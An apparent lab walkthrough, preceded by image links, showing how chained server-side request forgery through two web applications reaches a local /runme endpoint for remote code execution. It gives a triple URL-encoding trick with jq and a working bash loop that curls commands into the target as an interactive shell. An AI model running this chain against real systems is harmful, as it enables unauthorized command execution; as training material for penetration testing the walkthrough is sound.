







RCE with a local file (Bash Script)
7. Luckly we have discovered a file (not from the request above)
 By studying the source code above,
we notice a functionality that allows us to execute commands on the remote host sending a GET request to /runme?x=<CMD>.
Let us confirm remote code execution by sending whoami as a command.
8. PROBLEM:
But what happens if we try to submit a command
with arguments, such as the uname
-a  To execute commands with arguments or special characters, we need to encode them three times as we pass them through three different web applications.
◇ For doing so, you can use any online URL-encoding service such as
urlencoder.org    ◇ A way to achieve this from the terminal also exists. This is to use jq, which supports encoding
sudo apt-get install jq
echo "uname -a" | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri
9. Automate Exploitation with a Bash script
while true; do
echo -n "# "; read cmd
ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
curl -s -o - "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
echo ""
done
Execute the script and we have RCE
